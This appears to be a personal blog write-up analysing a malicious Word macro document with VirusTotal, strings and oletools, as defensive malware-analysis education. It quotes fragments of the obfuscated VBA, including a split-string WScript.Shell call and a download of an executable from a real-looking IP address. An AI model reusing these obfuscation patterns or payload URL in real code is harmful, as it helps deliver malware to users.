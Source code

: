 ```yaml
---
title:  "Malicious Document Analysis"
author: Vince Jang
date: 2024-01-15 00:00:00 +0000
categories: [projects]
tags: [projects]
image: /assets/img/pic10.3.PNG
render_with_liquid: false
---
```


# Malicious Document Analysis(DOC VBA)

Weaponized MS office documents pose a large risk to organizations.. From embedded active content, such as scripts and HTML code in Word and Powerpoint files to Excel macros, this is an attack vector every organization must pay attention to. About 1 million companies worldwide use Office 365 and 70% of Fortune 500 companies purchased O365 in 2020. As a result, nearly every business transaction involving a file transfer will likely be in a Microsoft office format at risk of containing malware.

![images](/assets/img/pic10.1.1.PNG)  
Have you ever seen this warning when opening MS Office files? And did you just click it? This is the danger you should be aware of. As soon as you click the 'Enable Content' button, your whole computer could be compromised. Unfortunately, people still click it

## Macro
Macros is A small program that is often written to automate repetitive tasks in MS Office applications. Macros are typically written in Visual Basic for Application(VBA), a programming language developed by microsoft that is supported by all Microsoft Office products.

## Tools
1. Linux / highly recommend REMnux on VirtualBox but I will use Kali for instance
2. ExifTool, Strings, Xorsearch and more
3. Olevba to extract malicious macros

## Analysis 

I am going to do basic dynamic analysis with [Virustotal](https://www.virustotal.com/gui/home/upload),  
We are going to Extract Hash key of Baddoc.doc(Malicious file)  
![images](/assets/img/pic10.1.PNG)  
and we are going to use Search module in Virustotal to see what information we can get.  
![images](/assets/img/pic10.2.PNG)  
![images](/assets/img/pic10.3.PNG)  
![images](/assets/img/pic10.4.PNG)  
![images](/assets/img/pic10.5.PNG)  
As you can see we can find all information such as file names, create dates, contacted IP addresses, drop files, sand box reports, registry set keys and many more  
Do you think this is malicious file? I agree but I need more information, Let's dig into it.  

if you are using REMnux all tools are pre installed, If you using other Linux you might need to install some of tools.  
![images](/assets/img/pic10.6.PNG)  
Let's start analyze  
![images](/assets/img/pic10.7.PNG)  
We can see the Language code is "Russian" and Template type is ".dotm" which is Macros.  
this is pretty suspicious to me.  
## What to look for
1. IP addresses
2. Website / http
3. Domains
4. File locations that are suspicious
5. Malicious code
6. Malicious files  
Okay lets type `strings -n 5 baddoc.doc` (it basically means find strings anything longer than 5 characters)  
![images](/assets/img/pic10.8.PNG)  
![images](/assets/img/pic10.9.PNG)  
![images](/assets/img/pic10.10.PNG)  
I can see some IP addresses and File directories which is suspicious but it's really messy and hard to look.  
Let's use other tools  
I installed oletools 
![images](/assets/img/pic10.12.PNG)  
and excute it.  
![images](/assets/img/pic10.13.PNG)  
![images](/assets/img/pic10.14.PNG)  
We can see more organized information such as this document is not encryped and this file contains VBA Macros, but still Very Basic.  
Let's see what is in VBA script.  
![images](/assets/img/pic10.15.PNG)  
![images](/assets/img/pic10.16.PNG)  
Here we go. It highlighted suspicious keywords and we can have a look in more details.  
If we open this file all the code in this file will be excuted.  
![images](/assets/img/pic10.17.PNG)  
For example, I found a code line `"$file = 'c:\Users\" + USER + "\AppData\Local\Temp\" + "4" & "44." + Chr(101) & "xe';"`,`Chr(Asc("C")) + "reate" + "O" + "bject(" + Chr(34) + "W" + "S" + "cript." + "S" + "hell" + Chr(34) + ")" + "" & ""` this is malicious code. they use divided strings to hide the actual code they want to excute.  
I still want to see more Detail,
So, I decoded all the malicious code file.  
![images](/assets/img/pic10.18.PNG)  
And it looks like this.  
![images](/assets/img/pic10.19.PNG)  
![images](/assets/img/pic10.20.PNG)  
![images](/assets/img/pic10.21.PNG)  
![images](/assets/img/pic10.22.PNG)  
"It gives us more details in keywords and descriptions, such as PowerShell commands, executable file names, temporary directories, ping, and many more. With this information, I am 100% sure that this is a malicious file.  
One thing that is really interesting is the use of a bit of a twist: `Print #FileNumber, "strRT = ""http://91.220.131" + JASHDUIQWHDKJQAD + ".exe""` . If you find "JASHDUIQWHDKJQAD" in this code, it is it is ![images](/assets/img/pic10.24.PNG)  
In this case This URL is going to install something and it will be `http://91.220.131.44/upd/install.exe` Now we know IP address, Malicious file and the path.  
SO, DO NOT OPEN IT!










